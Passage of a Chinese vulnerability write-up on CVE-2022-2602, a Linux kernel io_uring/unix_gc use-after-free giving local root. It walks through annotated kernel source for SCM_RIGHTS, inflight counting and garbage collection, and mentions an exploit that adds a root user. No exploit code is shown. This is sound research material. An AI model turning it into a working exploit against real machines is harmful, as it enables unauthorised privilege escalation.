








# CVE-2022-2602 内核提权详细分析-先知社区

> **来源**: https://xz.aliyun.com/news/16938  
> **文章ID**: 16938

---

# CVE-2022-2602 内核提权详细分析

## 漏洞简介

**漏洞编号**: CVE-2022-2602

**影响版本**：Linux Kernel < v6.0.3。v6.0.3已修复。

**漏洞产品**: linux kernel - io\_uring & unix\_gc

**利用效果**: 本地提权

## 环境搭建

**复现环境**：qemu + linux kernel v5.18.19

**环境附件：** [mowenroot/Kernel](https://github.com/mowenroot/Kernel)

**复现流程**： 执行exp后，账号:mowen,密码:mowen的root用户被添加。su mowen完成提权。


## 漏洞原理

漏洞本质是 `filp` 的 `UAF` 。 `io_uring` 模块提供的 `io_uring_register` 系统调用中的 `IORING_REGISTER_FILES` 能注册文件。调用后会把**文件**放入 `io_uring->sk->receive_queue` 。在 `Linux gc` 垃圾回收机制中又会将该列表的文件取出，尝试会将文件取出并**释放**。导致下次使用 `io_uring` 利用该文件时会触发 `UAF` 。

漏洞技术点涉及 io\_uring 、飞行计数、gc回收机制等，涉及的还是比较多的，下面详细分析。

参考链接：

[【kernel exploit】CVE-2022-2602垃圾回收错误释放iouring的file导致UAF — bsauce](https://bsauce.github.io/2023/06/08/CVE-2022-2602/#3-测试结果)

[[漏洞分析] CVE-2022-2602 内核提权详细分析](https://mp.weixin.qq.com/s/w_u0FoiFdU0KM397UXJojw)

io\_uring, SCM\_RIGHTS, and reference-count cycles(<https://lwn.net/Articles/779472/>)

The quantum state of Linux kernel garbage collection CVE-2021-0920 (Part I)(<https://googleprojectzero.blogspot.com/2022/08/the-quantum-state-of-linux-kernel.html>)

## 飞行计数

Linux 进程间通信是很重要的一个功能。Linux sock就允许建立一个双向socket来传递消息，通常会在两个进程中通信使用。**SCM\_RIGHTS** 是 Unix 域套接字（Unix Domain Socket）中用于 进程间传递文件描述符的控制消息类型。其核心作用在于允许两个进程通过 IPC 机制共享已打开的文件、套接字或其他资源，而无需重复打开或复制数据。接下来主要针对 SCM\_RIGHTS 方面分析。

但是传递总会有影响，比如我这边发送过去，对方还没接收到就关闭了文件。对方该怎么处理，不可能再去使用已经释放的资源。所以在文件准备发送的阶段,就会对文件引用计数 `+1` 。即使在对方没接收到就关闭文件，他的引用计数才不会为 `0` 而被释放。这样在`socket` 被关闭时，调用`sock_release`对未接受到的文件，使用 `fput()` 来减少引用计数，这样就可以正常使用文件。

在资源释放比较依赖于 `socket` 被关闭，但是我发送 `socket fd` 本身，这样就会造成无法释放。比如下图



1、打开两个sock A、B，初始引用计数都是为 1 。

2、把 A 发送给 B ，B 发送给 A。两个引用计数都 +1 ，这时 ref\_Aref\_B2 。

3、关闭用户态的文件描述符，即关闭 A、B。引用计数都会 -1 ，这时 ref\_Aref\_B1。

4、用户态已经无法再次对 A、B 操作，也就无法调用`sock_release`，但是内核又不会主动对 A、B 操作，就导致了资源无法释放。

这样 `Linux gc` 垃圾回收机制就诞生了，内核会主动回收这种类似的资源，下面详细分析。先来了解发送的一个过程，再来分析回收机制。

### 发送SCM\_RIGHTS

在用户态使用 `socketpair(AF_UNIX,SOCK_DGRAM,0,s);` 申请 `SOCK_DGRAM`类型的 `socket` 然后使用 `sendmsg()` 发送 `SCM_RIGHTS`类型的信息的时候，会调用`unix_dgram_sendmsg()`。

```
/* net/unix/af_unix.c */
static int unix_dgram_sendmsg(struct socket *sock, struct msghdr *msg,
                  size_t len)
{
    struct sock *sk = sock->sk;  // 获取socket对应的sock结构
    DECLARE_SOCKADDR(struct sockaddr_un *, sunaddr, msg->msg_name);  // 获取目标地址
    struct sock *other = NULL;  // other为目标socket(如果没指定地址默认为对端)
    struct sk_buff *skb;  // skb数据缓冲区
    struct scm_cookie scm;  // 用于传递文件描述符等控制消息


    wait_for_unix_gc();  // 等待垃圾回收完成
    // 获取文件结构体file ，初始化 scm_cookie
    err = scm_send(sock, msg, &scm, false);
    // ...
    // 处理目标地址
    if (msg->msg_namelen) {
        // 如果指定了目标地址,验证地址有效性
        err = unix_validate_addr(sunaddr, msg->msg_namelen);
        if (err)
            goto out;
    } else {
        // 未指定目标地址,尝试获取已连接的对端
        sunaddr = NULL;
        err = -ENOTCONN;
        // other为对端
        other = unix_peer_get(sk);
        if (!other)
            goto out;
    }
    // ...
    // 分配发送缓冲区
    skb = sock_alloc_send_pskb(sk, len - data_len, data_len,
                   msg->msg_flags & MSG_DONTWAIT, &err,
                   PAGE_ALLOC_COSTLY_ORDER);
    if (skb == NULL)
        goto out;

    // 将 scm_cookie 添加到skb 文件的发送工作
    err = unix_scm_to_skb(&scm, skb, true);
    if (err < 0)
        goto out_free;

    //...
    // 把skb添加到 对端的sk_receive_queue(未接收列表)
    skb_queue_tail(&other->sk_receive_queue, skb);
    unix_state_unlock(other);
    // 通知接收进程有数据到达
    other->sk_data_ready(other);
    sock_put(other);
    // 销毁 scm_cookie
    scm_destroy(&scm);
    return len;

//...
    return err;
}
```

「1」 首先会调用 `scm_send` 获取文件结构体 `file` ，初始化 `scm_cookie` 。这个 `scm_cookie` 涉及文件存放的列表，并且前面提到的准备发送阶段的文件引用计数增加，就在这个函数中实现。 相关结构体如下。

```
struct scm_cookie {
    struct pid *               pid;                  /*     0     8 */
    struct scm_fp_list *       fp;     //文件列表     /*     8     8 */
    struct scm_creds           creds;                /*    16    12 */
    struct lsmblob             lsmblob;              /*    28    16 */
};
struct scm_fp_list {
    short int                  count;                /*     0     2 */
    short int                  max;                  /*     2     2 */
    struct user_struct *       user;                 /*     8     8 */
    struct file *              fp[253];              /*    16  2024 */
};
```

「2」初始化了相关文件，接着需要处理发送目的，`other` 为目标 `socket`，如果没指定地址就会通过 `unix_peer_get()`获取已连接的对端，比如在最开始的描述中，把 `A` 发送给 `B`，`other` 在这里就是为 `B`。

「3」 接下来处理发送数据，把 `scm_cookie` 中的文件添加到 `skb` ，并且还会对文件引用计数与飞行计数增加操作等。

「4」 把当前 `skb` 挂载到对方的 `sk_receive_queue` (未接收列表)，然后通知对方有数据要来，最后通过 `scm_destroy` 销毁局部变量 `scm_cookie` ，减少最开始增加的引用计数。需要注意的是 `scm_destroy` 减少的只是局部变量引用增加的，不是准备发送阶段增加的。

#### scm\_send函数

约等于直接调用了`__scm_send()`,重点关注 `SCM_RIGHTS` ，在这个选择中调用 `scm_fp_copy` 来获取file结构体，初始化 `scm_cookie->fp`文件列表，并把 `file` 结构体放入文件数组( `fp->fp` )中。

```
/* net/core/scm.c */
int __scm_send(struct socket *sock, struct msghdr *msg, struct scm_cookie *p)
{
    struct cmsghdr *cmsg;

    // 遍历控制头
    for_each_cmsghdr(cmsg, msg) {
    //...
        switch (cmsg->cmsg_type)
        {
        case SCM_RIGHTS:  // 传递文件描述符
            // 必须是UNIX域socket 
            if (!sock->ops || sock->ops->family != PF_UNIX)
                goto error;
              // 获取 file 结构体
            err=scm_fp_copy(cmsg, &p->fp);
            if (err<0)
                goto error;
            break;

    //...
    }

//...
}
```

#### scm\_fp\_copy

「1」 首先会对文件列表进行初始化，再尝试把文件放入文件数组。

「2」 会循环使用 `fget_raw()`从文件描述符中获取 `file` 结构体，过程中引用计数 `+1` ，这里 +1 是前面提到的局部变量引用增加的，不是准备发送阶段增加的。在之后的 `scm_destroy()` 中会对应减少，到这里我们对 `scm_cookie` 有了更深的理解，无非就是两层结构，大致可看为 文件列表 -> 文件数组的关系。现在做的操作就是需要初始化文件列表，然后把要发送的文件存放进文件数组中。

```
/* net/unix/af_unix.c */
static int scm_fp_copy(struct cmsghdr *cmsg, struct scm_fp_list **fplp)
{
    int *fdp = (int*)CMSG_DATA(cmsg);
    struct scm_fp_list *fpl = *fplp;
    struct file **fpp;
    int i, num;
    // 获取数量
    num = (cmsg->cmsg_len - sizeof(struct cmsghdr))/sizeof(int);

    if (num <= 0)
        return 0;

    if (num > SCM_MAX_FD)
        return -EINVAL;
    //  fpl 文件列表，如果文件列表为空，则进行初始化
    if (!fpl)
    {
        // 分配空间 使用GFP_KERNEL_ACCOUNT
        fpl = kmalloc(sizeof(struct scm_fp_list), GFP_KERNEL_ACCOUNT);
        if (!fpl)
            return -ENOMEM;
        // 初始化参数
        *fplp = fpl;
        fpl->count = 0;// 文件个数
        fpl->max = SCM_MAX_FD;// 文件最大数量
        fpl->user = NULL;
    }
    // 获取文件列表中的文件数组位置
    fpp = &fpl->fp[fpl->count];

    if (fpl->count + num > fpl->max)
        return -EINVAL;

    // 遍历所有文件结构体
    for (i=0; i< num; i++)
    {
        int fd = fdp[i];
        struct file *file;
        // fget_raw 获取文件结构体，引用计数 +1
        // 这里 +1 是前面提到的局部变量引用增加的，不是准备发送阶段增加的
        if (fd < 0 || !(file = fget_raw(fd)))
            return -EBADF;
        *fpp++ = file;//存放进数组
        // 文件列表计数，count为文件结构体个数
        fpl->count++;
    }

    if (!fpl->user)
        fpl->user = get_uid(current_user());

    return num;
}
```

#### unix\_scm\_to\_skb

「1」 该函数主要工作是将 `scm_cookie` 添加到 `skb`，进行文件的发送工作。设置一些 `cb` 信息后调用 `unix_attach_fds()` 。

```
/* net/unix/af_unix.c */
static int unix_scm_to_skb(struct scm_cookie *scm, struct sk_buff *skb, bool send_fds)
{
    int err = 0;
    // 初始化 skb->cb
    UNIXCB(skb).pid  = get_pid(scm->pid);
    UNIXCB(skb).uid = scm->creds.uid;
    UNIXCB(skb).gid = scm->creds.gid;
    UNIXCB(skb).fp = NULL;
    unix_get_secdata(scm, skb);
    // 文件列表存在，即有文件时调用unix_attach_fds
    if (scm->fp && send_fds)
        err = unix_attach_fds(scm, skb);

    skb->destructor = unix_destruct_scm;
    return err;
}
```

##### unix\_attach\_fds

「1」 到这里就是核心发送阶段了，先调用 `scm_fp_dup()` 对每个文件增加文件计数引用，在这里才是准备发送阶段增加的计数引用，之前获取 `file` 使用的 `fget_raw()`增加是临时的，代表 `scm` 正在引用。

「2」 然后调用 `unix_inflight()` 尝试添加飞行计数。

```
/* net/unix/scm.c  */
int unix_attach_fds(struct scm_cookie *scm, struct sk_buff *skb)
{
    int i;

    if (too_many_unix_fds(current))
        return -ETOOMANYREFS;

    /*
     * Need to duplicate file references for the sake of garbage
     * collection.  Otherwise a socket in the fps might become a
     * candidate for GC while the skb is not yet queued.
     */
    // scm_fp_dup 会为 scm->fp 中所有文件 增加计数引用
    UNIXCB(skb).fp = scm_fp_dup(scm->fp);
    if (!UNIXCB(skb).fp)
        return -ENOMEM;
    // 遍历每个文件，尝试添加飞行计数
    for (i = scm->fp->count - 1; i >= 0; i--)
        unix_inflight(scm->fp->user, scm->fp->fp[i]);
    return 0;
}
```

##### scm\_fp\_dup

```
/* net/core/scm.c  */
struct scm_fp_list *scm_fp_dup(struct scm_fp_list *fpl)
{
    struct scm_fp_list *new_fpl;
    int i;

    if (!fpl)
        return NULL;
    // 复制新的文件列表
    new_fpl = kmemdup(fpl, offsetof(struct scm_fp_list, fp[fpl->count]),
              GFP_KERNEL_ACCOUNT);
    if (new_fpl) {
        // 准备发送阶段的引用计数 +1
        for (i = 0; i < fpl->count; i++)
            get_file(fpl->fp[i]); 
        new_fpl->max = new_fpl->count;
        new_fpl->user = get_uid(fpl->user);
    }
    return new_fpl;
}
```

##### unix\_inflight

```
/* net/unix/scm.c */
void unix_inflight(struct user_struct *user, struct file *fp)
{
    // 获取sock(只有socket和io_uring才能找到)
    struct sock *s = unix_get_socket(fp);

    spin_lock(&unix_gc_lock);
    //对于sock类增加飞行计数
    if (s) {
        struct unix_sock *u = unix_sk(s);
        // inc自增u->inflight，飞行计数不存放在file，而是在文件对应的sock
        //	当第一次增加inflight时，添加到全局飞行列表 gc_inflight_list
        if (atomic_long_inc_return(&u->inflight) == 1) {
            BUG_ON(!list_empty(&u->link));
            list_add_tail(&u->link, &gc_inflight_list);
        } else {
            BUG_ON(list_empty(&u->link));
        }
        /* Paired with READ_ONCE() in wait_for_unix_gc() */
        // 全局飞行计数 +1
        WRITE_ONCE(unix_tot_inflight, unix_tot_inflight + 1);
    }
    // 用户inflight计数++
    user->unix_inflight++;
    spin_unlock(&unix_gc_lock);
}
```

「1」 因为只有在发送 `socket` 自身的 `fd` 才会导致资源无法释放的问题，在普通文件引用的情况都会在 `sock_release()`中释放，所以在添加飞行引用计数只考虑 `sock` 类(socket和io\_uring)。通过 `unix_get_socket()` 获取 `sock`，而这只有 `socket` 和 `io_uring` 才能找到。普通文件返回 `NULL` 。接着会对 `sock` 类进行特殊处理。

##### unix\_get\_socket

```
/* net/unix/scm.c */
struct sock *unix_get_socket(struct file *filp)
{
    struct sock *u_sock = NULL;
    struct inode *inode = file_inode(filp);//获取inode

    /* Socket ? */
    // socket情况
    if (S_ISSOCK(inode->i_mode) && !(filp->f_mode & FMODE_PATH)) {
        struct socket *sock = SOCKET_I(inode);
        struct sock *s = sock->sk;

        /* PF_UNIX ? */
        if (s && sock->ops && sock->ops->family == PF_UNIX)
            u_sock = s;
    } else {
        /* Could be an io_uring instance */
        // 获取io_uring的sock
        u_sock = io_uring_get_socket(filp);
    }
    return u_sock;
}
```

「2」 如果存在则会 `inc` 自增`u->inflight`，前面提到飞行计数并不涉及普通文件，只针对 `sock` 类，所以当然的飞行计数不存放在 `file` ，而是在文件对应的 `sock` 。当第一次增加 `inflight` 时，添加到全局飞行列表 `gc_inflight_list` 。这点很关键，当使用 `unix_gc()`回收时就会在 `gc_inflight_list`找出符合的释放。

即如果传进来的是 `socket` 或者 `io_uring`会进行以下操作：

* 增加飞行计数——`u->inflight++`
* 添加到全局飞行队列 `gc_inflight_list`
* 全局飞行计数增加 `unix_tot_inflight++`
* 用户飞行计数增加 `user->unix_inflight++`

#### scm\_destroy

「1」首先销毁cred，释放文件列表调用 `__scm_destroy()`

「2」遍历文件列表，使用 `fput()` 减少文件计数引用，抵消最开始 `fget_raw()` 增加的文件引用计数。

```
/* include/net/scm.h */
static __inline__ void scm_destroy(struct scm_cookie *scm)
{
    scm_destroy_cred(scm);
    if (scm->fp)
        __scm_destroy(scm);
}
/* net/core/scm.c */
void __scm_destroy(struct scm_cookie *scm)
{
    struct scm_fp_list *fpl = scm->fp;
    int i;

    if (fpl) {
        scm->fp = NULL;
        for (i=fpl->count-1; i>=0; i--)
            fput(fpl->fp[i]);
        free_uid(fpl->user);
        kfree(fpl);
    }
}
```

### 飞行计数小结

通过上面的分析，我们大致对发送 `SCM_RIGHTS` 和 **飞行计数** 有了一个大致的了解。

文件初始阶段——在发送文件描述符时，会先通过 `fd` 获取 `file` 结构体，以数组列表形式挂载到局部变量 `scm_cookie`。

文件准发阶段——再把局部变量 `scm_cookie` 中的文件列表添加到 `skb` 上。同时增加文件计数引用，防止未接受就关闭的风险。并增加飞行引用计数和挂载到全局飞行列表 `gc_inflight_list`，而飞行引用计数只有 `sock` 类(socket、io\_uring)再会增加，普通文件不做处理。

文件发送阶段——添加各种附加信息，把当前 `skb` 挂载到对端未接受列表(`sk_receive_queue`),并通知进程有数据到达。

资源销毁阶段——因为 `scm_cookie` 为局部变量，并在第一阶段采用 `fget_raw()`增加文件计数引用，在这一阶段需要安全释放资源见减少文件引用计数然后函数返回。

## unix\_gc垃圾回收机制

垃圾回收的触发在一个 `socket` 被关闭时，主要通过 `unix_gc()`函数，调用栈：



在了解了飞行计数的概念后，最开始的图完善成如下图。在发送 `socket` 自身 `fd` 后关闭，文件引用计数为 `1` ，并且用户态再无法对文件描述符操作，因为文件引用计数不为 `0` 导致还是无法释放文件资源。但在增加了飞行计数引用后，对于 `sock` 类增加了飞行计数，这时A、B的 `文件引用计数==飞机计数==1` ，并且对应的 `skb` 挂载在全局飞行列表 `gc_inflight_list`。

`unix_gc` 回收本质就是遍历全局飞行列表 `gc_inflight_list`，查看是否有符合这种**闭环条件**，然后进行释放回收内存。

在分析 `unix_gc` 源码前，我们需要有一个清楚的认知就是导致 `sock fd` 无法释放的真正原因，是因为增加 `ref` 后，但对方又未接受到而被挂于对端的 `sk_receive_queue`  上所导致的**闭环**。你可以理解为`unix_gc` 就是在处理**闭环**(不准确，还有多持有僵死状态)，而 `unix_gc` 机制核心在于对 `gc_inflight_list->sock->sk_receive_queue` 上 的文件检查并释放。



### unix\_gc

`gc_inflight_list`全局飞行列表，挂载的是发送的 `sock` 文件。

`sk_receive_queue`未接受列表，存放的是 `skb`，`skb` 中存放未接受文件的列表 `fp` 。

「1」首先遍历全局飞行列表 `gc_inflight_list` ，如果当 **文件引用计数==飞行计数** 就判定为“垃圾”，被放进备选垃圾队列`gc_candidates` ，如果两个引用计数都不相同就不满足闭环的条件。

「2」上面提及 `unix_gc` 机制核心在于对 `sk_receive_queue`的处理，`unix_gc` 就是在处理**闭环**(不准确，还有多持有僵死状态)，而这里引用的 `scan_children`则是核心，有关`scan_children`函数建议师傅们先看过一遍，相关分析在下面。所以需要遍历备选垃圾队列`gc_candidates`，遍历队列每个 `sock` 中的 `sk_receive_queue`，进行飞行引用计数的减少闭环，这里减少的目的就在于下一步判断是否是**闭环**(文件循环发送)。

「3」接下来判断是否是**闭环**，遍历 `gc_candidates` 列表，判断飞行引用计数是否**大于0**，如果大于0就说明文件还在使用，为什么这么说呢。原因在于上一步调用 `scan_children()` 减少的飞行计数引用是 `sk_receive_queue` 中的，如果不是**闭环**或者多持有状态，那么就不会在 **sk\_receive\_queue** 找到该文件并减少飞行计数，简而言之文件还在使用。合法文件就添加到 `not_cycle_list`，并恢复飞行计数引用。

「4」 遍历 `gc_candidates`，把之前减少的飞行引用计数加回来，然后添加到 `hitlist` 以供之后恢复使用。

「5」 遍历 `not_cycle_list`，恢复合法文件重新添加回`gc_inflight_list`。

「6」 调用`__skb_queue_purge(&hitlist);`进行释放操作。

```
/* net/unix/garbage.c */
void unix_gc(void)
{
    struct unix_sock *u;
    struct unix_sock *next;
    struct sk_buff_head hitlist;
    struct list_head cursor;
    LIST_HEAD(not_cycle_list);
    
    //...
    
    // 遍历 gc_inflight_list ，取出链子上的文件
    list_for_each_entry_safe(u, next, &gc_inflight_list, link) {
        long total_refs;
        long inflight_refs;
        // 文件引用计数
        total_refs = file_count(u->sk.sk_socket->file);
        // 飞行计数
        inflight_refs = atomic_long_read(&u->inflight);

        BUG_ON(inflight_refs < 1);
        BUG_ON(total_refs < inflight_refs);
        // 如果当 文件引用计数==飞行计数，就判定为垃圾
        if (total_refs == inflight_refs) {
            //添加进 gc_candidates
            list_move_tail(&u->link, &gc_candidates);
            // 设置 UNIX_GC_CANDIDATE、UNIX_GC_MAYBE_CYCLE
            __set_bit(UNIX_GC_CANDIDATE, &u->gc_flags);
            __set_bit(UNIX_GC_MAYBE_CYCLE, &u->gc_flags);
        }
    }


    // 遍历每个sock，先进行减少飞行计数引用
    list_for_each_entry(u, &gc_candidates, link)
        scan_children(&u->sk, dec_inflight, NULL);

    list_add(&cursor, &gc_candidates);
    /*
        遍历 gc_candidates 列表，
        找出合法文件(飞行计数-1之后仍然大于>0,表示仍在使用)，
        合法文件添加到 not_cycle_list 列表
    */ 
    while (cursor.next != &gc_candidates) {
        u = list_entry(cursor.next, struct unix_sock, link);

        /* Move cursor to after the current position. */
        list_move(&cursor, &u->link);

        if (atomic_long_read(&u->inflight) > 0) {
            // 不是垃圾的添加到 not_cycle_list
            list_move_tail(&u->link, &not_cycle_list);
            // 清除 UNIX_GC_MAYBE_CYCLE
            __clear_bit(UNIX_GC_MAYBE_CYCLE, &u->gc_flags);
            // 恢复飞行计数引用(inc自增)
            scan_children(&u->sk, inc_inflight_move_tail, NULL);
        }
    }
    list_del(&cursor);

    // 初始化 hitlist ，这个列表为最终回收用的列表
    skb_queue_head_init(&hitlist);
    // 遍历gc_candidates，把之前减少的飞行引用计数加回来，然后添加到 hitlist
    list_for_each_entry(u, &gc_candidates, link)
        scan_children(&u->sk, inc_inflight, &hitlist);

    //遍历 not_cycle_list，恢复合法文件
    while (!list_empty(&not_cycle_list)) {
        u = list_entry(not_cycle_list.next, struct unix_sock, link);
        __clear_bit(UNIX_GC_CANDIDATE, &u->gc_flags);
        list_move_tail(&u->link, &gc_inflight_list);
    }

    spin_unlock(&unix_gc_lock);

    /* Here we are. Hitlist is filled. Die. */
    // 调用__skb_queue_purge进行释放操作
    __skb_queue_purge(&hitlist);

    //...
}
```

### scan\_children

`scan_children` 直接调用 `scan_inflight`，所以直接放了 `scan_inflight`相关源码。

「1」在之前分析发送的过程中 `skb` 会被挂载到对端的`sk_receive_queue`上。所以这里从文件对应的 `sock` 中的 `sk_receive_queue`(未接收列表)取出 `skb`，而 `skb`里面有 **文件列表**。所以相当于最终遍历 `sk_receive_queue`中的每一个文件，如果遇到 `sock` 类文件，进行`func(u)` 操作(一般是进行飞行计数的加减)。

「2」 如果需要提取出来使用，就会把 `skb` 从 `sk_receive_queue` 取出，然后添加到 `hitlist`。

```
/* net/unix/garbage.c */
static void scan_inflight(struct sock *x, void (*func)(struct unix_sock *),
              struct sk_buff_head *hitlist)
{
    struct sk_buff *skb;
    struct sk_buff *next;

    spin_lock(&x->sk_receive_queue.lock);
    //从对应 sk_receive_queue 中取出 skb
    skb_queue_walk_safe(&x->sk_receive_queue, skb, next) {
        /* Do we have file descriptors ? */
        // 如果 skb存在文件列表
        if (UNIXCB(skb).fp) {
            bool hit = false;
            /* Process the descriptors of this socket */
            // nfd 为 skb包含文件数量
            int nfd = UNIXCB(skb).fp->count;
            // fp 为 文件数组
            struct file **fp = UNIXCB(skb).fp->fp;
            // 遍历每个文件
            while (nfd--) {
                /* Get the socket the fd matches if it indeed does so */
                //只有sock类需要特殊处理
                struct sock *sk = unix_get_socket(*fp++);

                if (sk) {
                    struct unix_sock *u = unix_sk(sk);

                    /* Ignore non-candidates, they could
                     * have been added to the queues after
                     * starting the garbage collection
                     */
                    // 如果在之前 文件引用计数==飞行计数，才会满足条件
                    if (test_bit(UNIX_GC_CANDIDATE, &u->gc_flags)) {
                        hit = true;
                        // 一般是进行飞行计数的加减
                        func(u);
                    }
                }
            }

            if (hit && hitlist != NULL) {
                //把 skb 从 sk_receive_queue 取出
                __skb_unlink(skb, &x->sk_receive_queue);
                // 添加到 hitlist
                __skb_queue_tail(hitlist, skb);
            }
        }
    }
    spin_unlock(&x->sk_receive_queue.lock);
}
```

### \_\_skb\_queue\_purge

